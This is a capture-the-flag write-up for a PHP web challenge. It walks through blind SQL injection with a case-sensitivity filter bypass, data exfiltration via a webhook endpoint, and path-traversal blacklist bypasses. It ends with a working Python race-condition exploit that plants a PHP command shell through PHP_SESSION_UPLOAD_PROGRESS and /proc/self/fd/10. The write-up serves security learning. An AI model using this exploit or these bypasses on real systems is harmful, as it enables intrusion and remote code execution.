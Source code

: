 ## Skills required: Blind testing, SQL injection with filter bypass, PHP Local File Inclusion to RCE

Due to my messy workflow, I probably used about 1 day on this challenge. 😿
There are tons of rabbit holes that successfully obfuscated the blind testing - it's often hard to tell if hitting something means to carry on or to back off.

## Steps taken:

My actual steps are much less tidy, but for the sake of reading and learning it has been organized.

From the source, we can find `send_pic.php` and with some testing in Burp Suite:

![the chall begins](https://user-images.githubusercontent.com/114584910/210605448-9b1b7514-edbd-44fe-a520-0a11db3b150b.png)

![inputting 0](https://user-images.githubusercontent.com/114584910/210605462-8ec9793d-d4ce-4873-918e-ff4242252107.png)

With some basic enumeration, combined with the given MySQL database information we can conclude:
- For 1 and 2, no output is given
- For any other number, no data is given

It's easy to imagine exfiltrating the access token with SQL injection, but we can be **more sure by trying to throw some errors with type juggling**, a common trick in JavaScript and PHP challenges:

![type-juggling](https://user-images.githubusercontent.com/114584910/210605555-f837278a-aec4-4f1a-93d8-285e7db0496a.png)

We are seeing something beautiful here:
- `url` goes through `strtolower`
- `id` goes through `strpos`, which is interesting as the value should be parsed as number
- NONONO is thrown, this needs further enumeration
  - `url[1]` throws error
  - invalid url for `url` throws error

We can conjecture that the server is using the url, maybe a request is sent there? Let's spin up a webhook.site endpoint.

![webhook.site](https://user-images.githubusercontent.com/114584910/210605610-ad4686dd-4d22-469d-bf3f-a933135278e4.png)

Note that the **URL value is only sent to the URL** and does not appear in the challenge site. With a means to exfiltrate data, *now* we can look at SQL injections.

![SELECT a is OKAY](https://user-images.githubusercontent.com/114584910/210605649-cfbc0109-0014-44f6-8ccc-86f393b5cd71.png)

![SELECT id is also OKAY](https://user-images.githubusercontent.com/114584910/210605711-5800ffac-3f36-47d1-863e-6bf2e63cc864.png)

But it looks like the string `key_cc` is blacklisted (can't really show on pics).
For people with more experience with MySQL, they probably know **column names are not case sensitive.**

![exfiltrated](https://user-images.githubusercontent.com/114584910/210605848-be410c45-5f88-47a8-8d48-87082b1be73a.png)

Now we can log in. The username and password fields were a bit misleading, but now we have `get_img.php?file=messi.jpg`.

The endpoint name hints that it is susceptible to local file inclusion (aka path traversal):

![LFI](https://user-images.githubusercontent.com/114584910/210605918-0a111d2a-de19-48e8-b6ed-ff78b283b716.png)

There are many we can try now, but there are many blacklists and red herrings. **These are what I found during the CTF**:
- It's possible with `../index.php`, `../get_img.php`
- But, any request with `../..` will give no output. This is meaningless because we can use `.././..` instead.
- We can dig deeper into the rabbit hole:
  - `../.htaccess` is a nice starter, it doesn't seem very useful.
  - A typical example `/etc/passwd` shows some promising result, but invalid requests like `/aaa/bbb/ccc/etc/passwd` also show the result. *I didn't realize it was a blacklist and was mislead into thinking the string was somehow processed*
  - By trying [some word lists](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux), I could see the phrase `lib/php` is banned. This is again meaningless as `lib/./php` can be used.

Then I ran into many rabbit holes:
- I thought about bypassing the `media/` prefix for php wrappers. *It probably isn't impossible*
- I thought I needed to find the correct `php.ini` as part of the recon because of the blacklist
- Easier LFI-to-RCE routes are blocked:
  - `/proc/self/environ` has permission denied, and I can't tell if Apache log is blocked or that I had to find the true path in a non-default setting.
  Only at very late stage I realized that [it could be toughened defense](https://blog.orange.tw/2018/10/) (from Orange Tsai)
  - my php `sess` is blacklisted, but I went a long way trying to change and insert characters to bypass the `sess` blacklist.
  *In retrospect it probably isn't impossible*.
- I could access `/proc/self/fd/10` though, but I wrongly assumed that it wasn't my session and couldn't make better use of it

I did came across the [LFI-to-RCE via PHP sessions method](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions), but:
- I wrongly assumed that I could change the cookie by changing username, password and inserting cookie values manually.
- I even had access to an [excellent resource](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html) (written by LeaveSong) thanks to some reassurance from organizers,
I tried it but I again I wasn't able to connect the dots and tried to bypass the `sess` blacklist.

I did know that [phpinfo can be used for LFI-to-RCE](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo),
but I didn't have access to one and of course, ran down the rabbit hole of finding one.

## Solutions:

There are 2 solutions but I'll only write about the easier one:

### [File Upload via PHP_SESSION_UPLOAD_PROGRESS + Race Condition](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php_session_upload_progress)

The actual method is included in the [aforementioned resource](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html).
Even without Google Translate I can look at the code. After the CTF it was revealed that `/proc/self/fd/10` was indeed the way to go.
In fact I was so close:
- change the LFI endpoint to `/proc/self/fd/10`
- add back the cookie in the get request
- I really don't need `phpinfo`, just put a command shell

```py
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://172.105.127.104/index.php'
session = requests.session()
flag = '8645f3a1a7419bcb2796af86ebccb917'


def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success2', '<?php system($_GET["c"]);?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )


def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=.././.././.././.././proc/self/fd/10',
            cookies={'PHPSESSID': flag},
        )

        if flag.encode() in response.content:
            e.set()


if __name__ == '__main__':
    futures = []
    event = threading.Event()
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))

    wait(futures)
```

![pwned](https://user-images.githubusercontent.com/114584910/210606050-229f5794-2951-468b-b942-e46af7f51c81.png)

## Reflection:

- It'd be great if I can work more systematically and utilizing automation earlier (aka Burp Turbo Intruder)
- I could have communicated that I got `/proc/self/fd/10` but thought it's another guy's session instead of just saying `/proc/self/environ` was denied and may have gotten a completely different response
- LFI to RCE can be quite hard
